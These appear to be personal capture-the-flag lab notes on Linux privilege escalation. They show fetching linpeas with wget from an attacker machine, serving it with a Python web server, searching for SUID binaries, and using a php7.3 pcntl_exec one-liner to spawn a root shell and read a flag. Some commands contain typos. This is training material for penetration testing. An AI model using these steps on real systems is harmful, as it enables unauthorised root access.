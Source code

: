 ```bash
wget http://192.168.138.131/linpeas.sh linpeas.sh #prepping linpeas transfer
#go to kali terminal to setup linpeas in transfer directory
```
- spawning TTY shell with python: https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html
- back in kali
```bash
cd transfer
ls #check, make sure linpeas.sh is there
python3 -m http:.server 80 #start webserver for transfer directory
#go back to TTY shell to run
```
- back in TTY shell
```bash
#run wget command
chmod +x linpeas.sh #make linpeas executable
#run it
./linpeas.sh
```
- analyze linpeas results >> can start bottom up since top is system heavy info
	- interesting files section looks juicy
	- rws >>>> s = SUID , user ID
	- rwxr-s >>> s = SGUID, group ID
	- very interesting >> can look at permission settings 
- back in TTY shell - finding permission settings
```bash
#check perm settings
find / .type f -perm -4000 2>/dev/null 
#can see paths, there is a php7.3 binary

#can use gtfobins for SUID 
# we need to run the php ::: -r "pcntl_exec('/bin/sh', ['-p']);"
/usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);" #executes bin.sh as the root user

#euid = root, can execute as root
cd /root
ls
cat flag.txt
#done
```
- goal was to cover virtual host routing
